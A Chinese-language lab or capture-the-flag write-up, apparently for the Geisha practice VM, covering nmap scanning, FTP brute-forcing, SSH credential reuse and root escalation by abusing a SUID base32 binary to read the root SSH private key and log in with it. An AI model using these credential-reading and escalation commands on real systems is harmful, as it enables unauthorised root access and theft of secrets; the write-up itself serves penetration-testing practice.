







[TOC]

# 信息收集

```
arp-scan -l
nmap -p- --min-rate 10000 192.168.174.191 | awk -F ' ' '{print$$1}' | awk -F '/' '{print$1}' | tr '\n' ','
```

得到端口号21,22,80,7080,7125,8088,9198

分别进行TCP详细扫描

```
nmap -sT -sC -sV -O -p21,22,80,7080,7125,8088,9198 192.168.174.191 -oA /nmapscan/tcp
```

进行漏洞扫描

```
nmap --script=vuln -p21,22,80,7080,7125,8088,9198 192.168.174.191 -oA /nmapscan/vuln
```

进行UDP扫描

```
nmap -sU --min-rate 10000 --top-ports=100 192.168.174.191 -oA /nmapscan/udp
```

因为都没有什么有效信息，就不再展示结果了

# 端口分析

上面的端口中有多个http页面，不过都是同一个页面

也不包含什么信息

- 尝试对21端口进行爆破，用户名有root,admin,geisha,Geisha



登录后从ftp中拿不到信息，尝试ssh撞库



结果真登录上了

# 提权

查找有suid权限的文件

发现base32有suid权限



base32可以以临时root读取任意文件

- 尝试读取/etc/shadow，但是解不出来
- 第二种放就是读取root 私钥 `/root/.ssh/id_rsa`

```
base32 /root/.ssh/id_rsa | base32 --decode
```



```
chmod 1.rsa
ssh -i 1.rsa root@192.168.174.191
```



成功提权

- ```
  openssl rsa -in id_rsa -check -noout
  ssh-keygen -y -f id_rsa（新版）
  这两个命令可用于校验RSA私钥完整性
  ```

  